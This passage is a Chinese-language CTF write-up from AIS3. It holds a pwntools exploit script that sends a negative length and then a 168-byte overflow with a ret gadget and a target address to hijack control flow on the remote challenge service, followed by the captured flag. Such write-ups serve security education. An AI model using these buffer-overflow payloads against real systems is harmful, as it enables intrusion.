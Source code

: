 > 
> 請先在本地測試並確定能成功攻擊後再開 instance
> 
> 若同時參加兩場比賽，輸入任意一個 CTFd 的 token 皆可啟動 instance
> 
> Instancer 並非題目的一部分，請勿攻擊 Instancer。發現問題請回報 admin
> 
> Author: pwn2ooown

#### Writeup

上 exploit：

```python=
from pwn import *

p = remote("chals1.ais3.org", 60289)

p.recvuntil(b"?")
p.sendline(b"yes")

p.recvuntil(b": ")

p.sendline(b"-1")
p.recvuntil(b": ")

target = 0x401256
ret_addr = 0x40101a
payload = b"A" * (168)+ p64(ret_addr) + p64(target)
p.sendline(payload)

p.interactive()
```

Flag：`AIS3{Ave Mujica🎭將奇蹟帶入日常中🛐(Fortuna💵💵💵)...Ave Mujica🎭為你獻上慈悲憐憫✝️(Lacrima😭🥲💦)..._5a31c384269d53a52705ff3cc71db3dd}`

## misc

### Welcome

#### 題目
